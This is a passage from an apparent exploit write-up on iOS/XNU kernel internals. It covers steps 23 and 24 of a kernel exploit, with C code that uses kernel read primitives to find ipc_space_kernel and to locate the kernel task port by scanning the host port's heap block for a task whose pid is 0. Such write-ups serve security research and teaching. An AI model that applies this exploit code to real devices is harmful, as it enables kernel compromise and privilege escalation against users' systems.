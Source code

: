 Recall from Part 1 that the **ipc_port** struct has a receiver field which points to the ipc_space. We can read the **ipc_space_kernel** by reading the host ports **ip_receiver** field.

{% highlight c %}
    // 23\. We can get ipc_space_kernel from the host port's ip_receiver.
    	uint64_t host_port_ip_receiver = host_port_address + OFFSET(ipc_port, ip_receiver);
    	uint64_t ipc_space_kernel = stage1_read64(host_port_ip_receiver);
{% endhighlight %}
#### Step 24: Get the address of the kernel task port

The next step is to find the kernel **vm_map**, and to do that we can first find the kernel task port and from there onwards get the **vm_map** at a fixed offset. In the heap, the kernel task port would be near to the host port, so therefore we can iterate into that particular block as task ports and identify the kernel task port and subsequently get the kernel **vm_map**.

{% highlight c %}
    // 24\. Now we'll iterate through all the ports in the host port's block to try and find the
    	// kernel task port, which will give us the address of the kernel task.
    	kernel_task = 0;
    	uint64_t port_block = host_port_address & ~(BLOCK_SIZE(ipc_port) - 1);
    	iterate_ipc_ports(BLOCK_SIZE(ipc_port), ^(size_t port_offset, bool *stop) {
    		uint64_t candidate_port = port_block + port_offset;
    		bool found = stage1_check_kernel_task_port(candidate_port, &kernel_task);
    		*stop = found;
    	});
    	// Make sure we got the kernel_task's address.
    	if (kernel_task == 0) {
    		ERROR("could not find kernel_task port");
    		fail();
    	}
    	INFO("kernel_task is at 0x%016llx", kernel_task);
{% endhighlight %}
The following function checks whether a port is a kernel task port or not. It first looks up the bits field to see if it is of type **IKOT_TASK** to identify whether it is a task port. It then reads the address pointed to by the **kobject** field which is the corresponding task, looks up the **bsd_info** field in that task to find the **proc** structure it is pointing to, and then reads the **pid** value. If it is **0** this means it is the kernel task port.

{% highlight c %}
    /*
     * stage1_check_kernel_task_port
     *
     * Description:
     * 	Check if the given ipc_port is a task port for the kernel task.
     */
    static bool
    stage1_check_kernel_task_port(uint64_t candidate_port, uint64_t *kernel_task_address) {
    	// Check the ip_bits field.
    	uint32_t ip_bits = stage1_read32(candidate_port + OFFSET(ipc_port, ip_bits));
    	if (ip_bits != io_makebits(1, IOT_PORT, IKOT_TASK)) {
    		return false;
    	}
    	// This is a task port. Get the task.
    	uint64_t task = stage1_read64(candidate_port + OFFSET(ipc_port, ip_kobject));
    	// Now get the task's PID.
    	uint64_t proc = stage1_read64(task + OFFSET(task, bsd_info));
    	uint32_t pid = stage1_read32(proc + OFFSET(proc, p_pid));
    	// The kernel task has pid 0.
    	if (pid != 0) {
    		return false;
    	}
    	// Found it!
    	*kernel_task_address = task;
    	return true;
    }